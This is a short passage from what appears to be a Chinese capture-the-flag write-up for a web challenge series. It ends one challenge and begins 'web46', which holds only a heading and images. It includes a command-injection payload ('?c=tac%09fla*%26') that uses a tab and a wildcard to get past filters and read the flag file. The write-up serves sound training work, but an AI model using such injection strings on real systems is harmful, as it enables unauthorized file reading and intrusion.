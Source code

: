 ```
?c=tac%09fla*%26
```

得到flag

![image-20240120125132002](image/image-20240120125132002.png)

------

#### web46

分析

![image-20240120125408821](image/image-20240120125408821.png)
